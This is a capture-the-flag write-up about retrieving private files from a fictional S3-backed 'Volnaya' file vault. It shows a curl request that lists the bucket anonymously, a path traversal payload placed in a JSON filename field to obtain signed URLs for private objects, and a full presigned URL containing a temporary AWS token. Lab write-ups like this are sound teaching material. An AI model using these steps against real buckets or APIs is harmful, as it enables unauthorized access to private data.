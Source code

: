 # Description

During the reconnaissance phase, we discovered Volnaya’s file vault. While it appears to only display public files, our intel suggests it’s also being used to store sensitive information. We need your help retrieving those files—they’re critical to our mission.

URL: [http://volnaya-vault-static-website.s3-website.eu-north-1.amazonaws.com/](http://volnaya-vault-static-website.s3-website.eu-north-1.amazonaws.com/)
# Skills Required


- Basic AWS S3 knowledge
- Basic web application knowledge
- Basic API testing
# Skills Learned


- AWS S3 misconfiguration
- Path traversal vulnerability

# Solve

First lets start enumerating this website.

![](Images/Pasted%20image%2020250526121448.png)

Basic looking websites with some download buttons.

Downloading one of the files shows us how its all done.

When press the download a file it sends a POST request to the API containing the filename parameter.

![](Images/Pasted%20image%2020250526121655.png)

It responds by providing a URL

```
"url":"https://volnaya-vault.s3.eu-north-1.amazonaws.com/vault/public/Canteen_Water_Safety_Bulletin_2024_Q1.txt?response-content-disposition=attachment%3B%20filename%3D%22Canteen_Water_Safety_Bulletin_2024_Q1.txt%22&X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=ASIARHJJMXKM5RJR7QWG%2F20250526%2Feu-north-1%2Fs3%2Faws4_request&X-Amz-Date=20250526T161500Z&X-Amz-Expires=3600&X-Amz-SignedHeaders=host&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEHsaCmV1LW5vcnRoLTEiRzBFAiEAswQXF4vPoBUoo1dwLLp7n0h2%2F2siS1AMzuJJDDgXa9QCIFGG4ON2KajqMCChdsHm66P7J03JWPKnh%2FXQaflSWO8eKoIECEUQABoMMDg0Mzc1NTUwNjE3IgwtndyCotfupQJwYwoq3wNiNPEvnkQDCFj6C2xl0duYPs%2BPmNGlLfy%2FCs2B5XTLrTYezKclBjNA29mqi9TMWN3gS%2B6dxnxDj7QmKbTbY2FooPqgNrj4bTxWWuC3N4QpevWxMj94a8L3hvcjc4Va6p9KdnCdCshJ1GntkyafGfG2Hk3z4dwie91F3QTZi%2BdwwjWP%2FpSwGZs1fhvW06iV9KU8CaC9XICi89inZnojae8t69lxVxQng0Y5MqciZbAt1IC%2FPl2LWPK4%2FefCpS3lUykPfGLSESswYlfTl%2FNZ014siEMdWP2SSoA7GElzM4Z4PqsXCwW6lBr3i0ove68pKix%2FQsxbXdtji2b366dpI4UTW4ZBrDOzmwJnVzla%2BA1hoDQHhkzPKdq9WcPKq8GbNfbZm06KGIbphBXkEZmyIp9wNSiaRgokqC%2BavE%2FeLikf7WcNrLRZ9hObUa%2F2rFNZXZ859GcktXtGYOYWWym8EKg%2FGkCjKvd3ErcWItpAraerWgF7E%2FsXj20l%2Bp59uxziECGuqr8WiCjFCkxbyzQVraUc8XOFMcIE%2Balq36AfOoxT7UG9qi2qd8WgTb3EgMVeART5%2BtFgTY7PMZzRcGgp%2FaLGaJkF%2F56yeyjEUQWuNGVTg4UrZd%2ByyRs%2FJVsn7nFgSzDnndHBBjqlASKAiE2vmapFDfpjGdjSwAqElG5fOlVbnNhhmS9ZyaTzlYuXdQfP%2FKuack5NT7WSqZhAfS9j7b8mz4%2BiKOknOtWx5CYZq6m1yE8MUXmPpCD%2BOW0Oy1%2B1JDwFvD%2FjMiyPAxlgDfXKa7csMqdo4FujgjhHTVhobrQGxxtRtboL6huPP1gn9uJFOWr8j282P6Jwf1NbNVhDOsuaqk8OY9ig79Zd2%2BxGxQ%3D%3D&X-Amz-Signature=8f98c80dee57cfbc384d20d25c4fea7a35ed89cbca03761f697418acae6720fa"
```

Basically when we download a file the frontend sends a post request that returns a signed url to a private object in an S3 bucket. This is limited to the respective file.

We also have the `/api/files` which lists out all of the files

![](Images/Pasted%20image%2020250526122316.png)

We can potentially get data to leak by modifying the parameter. This was unsuccessful as passing it any parameter even if nonexistent just returned all public files.

Lets see if we can potentially do some enumerating via the post request to API/Downloads.

![](Images/Pasted%20image%2020250526123335.png)

Passing some payloads to this doesn't really return much as it encodes and treats as a filename string.

Filename is also required from by the API so I could not FUZZ file ids.

After a while of bashing my head I found I could use ListObjectsV2 to dump everything

```
curl "https://volnaya-vault.s3.eu-north-1.amazonaws.com/?list-type=2"

<?xml version="1.0" encoding="UTF-8"?>
<ListBucketResult xmlns="http://s3.amazonaws.com/doc/2006-03-01/"><Name>volnaya-vault</Name><Prefix></Prefix><KeyCount>6</KeyCount><MaxKeys>1000</MaxKeys><IsTruncated>false</IsTruncated><Contents><Key>vault/private/DIRECTORATE ALPHA &amp; BETA FIELD OPERATIVES.docx</Key><LastModified>2025-05-21T19:44:14.000Z</LastModified><ETag>&quot;56d7c4cd052a619d0efe221440e59b7b&quot;</ETag><ChecksumAlgorithm>CRC32</ChecksumAlgorithm><ChecksumType>FULL_OBJECT</ChecksumType><Size>4890</Size><StorageClass>STANDARD</StorageClass></Contents><Contents><Key>vault/private/_Post-Assessment Report.pdf</Key><LastModified>2025-05-21T19:44:14.000Z</LastModified><ETag>&quot;12bbe4f2fdc7529c233d30c35fccc0d8&quot;</ETag><ChecksumAlgorithm>CRC32</ChecksumAlgorithm><ChecksumType>FULL_OBJECT</ChecksumType><Size>3064188</Size><StorageClass>STANDARD</StorageClass></Contents><Contents><Key>vault/public/Canteen_Water_Safety_Bulletin_2024_Q1.txt</Key><LastModified>2025-05-21T19:44:14.000Z</LastModified><ETag>&quot;74a9ba58fd1cd36839790cfdec8bca8b&quot;</ETag><ChecksumAlgorithm>CRC32</ChecksumAlgorithm><ChecksumType>FULL_OBJECT</ChecksumType><Size>1861</Size><StorageClass>STANDARD</StorageClass></Contents><Contents><Key>vault/public/PR_Volnaya_Cyber_Forces_Image_Pack_Approved.zip</Key><LastModified>2025-05-21T19:44:14.000Z</LastModified><ETag>&quot;775bf1613630e55be516e7137ffc9de2&quot;</ETag><ChecksumAlgorithm>CRC32</ChecksumAlgorithm><ChecksumType>FULL_OBJECT</ChecksumType><Size>3351538</Size><StorageClass>STANDARD</StorageClass></Contents><Contents><Key>vault/public/Vehicle_Log_Update_VZ-TRK-1138.txt</Key><LastModified>2025-05-21T19:44:14.000Z</LastModified><ETag>&quot;eed221ffac5d274c5bb6814a10896e7d&quot;</ETag><ChecksumAlgorithm>CRC32</ChecksumAlgorithm><ChecksumType>FULL_OBJECT</ChecksumType><Size>424</Size><StorageClass>STANDARD</StorageClass></Contents><Contents><Key>vault/public/propaganda.png</Key><LastModified>2025-05-21T19:44:14.000Z</LastModified><ETag>&quot;4b55f86a419a9fcea748046c3408a793&quot;</ETag><ChecksumAlgorithm>CRC32</ChecksumAlgorithm><ChecksumType>FULL_OBJECT</ChecksumType><Size>2513133</Size><StorageClass>STANDARD</StorageClass></Contents></ListBucketResult> 
```

From this we find the secret files
```
<Key>
vault/private/DIRECTORATE ALPHA & BETA FIELD OPERATIVES.docx
</Key>
<LastModified>2025-05-21T19:44:14.000Z</LastModified>
<ETag>"56d7c4cd052a619d0efe221440e59b7b"</ETag>
<ChecksumAlgorithm>CRC32</ChecksumAlgorithm>
<ChecksumType>FULL_OBJECT</ChecksumType>
<Size>4890</Size>
<StorageClass>STANDARD</StorageClass>
</Contents>
<Contents>
<Key>vault/private/_Post-Assessment Report.pdf</Key>
<LastModified>2025-05-21T19:44:14.000Z</LastModified>
<ETag>"12bbe4f2fdc7529c233d30c35fccc0d8"</ETag>
<ChecksumAlgorithm>CRC32</ChecksumAlgorithm>
<ChecksumType>FULL_OBJECT</ChecksumType>
<Size>3064188</Size>
<StorageClass>STANDARD</StorageClass>
```

We can use the API to try and generate our signed URL.

![](Images/Pasted%20image%2020250526131649.png)

But that doesn't appear to work as it generates it for the /vault/public directory. We can attempt to tell it to do vault/private

![](Images/Pasted%20image%2020250526131716.png)

That just appended it but it does take out input. So we know we have potential path traversal.

```
{"filename":"../../vault/private/DIRECTORATE ALPHA & BETA FIELD OPERATIVES.docx"}
```

Works and generates a signed url for the private files.

![](Images/Pasted%20image%2020250526131806.png)


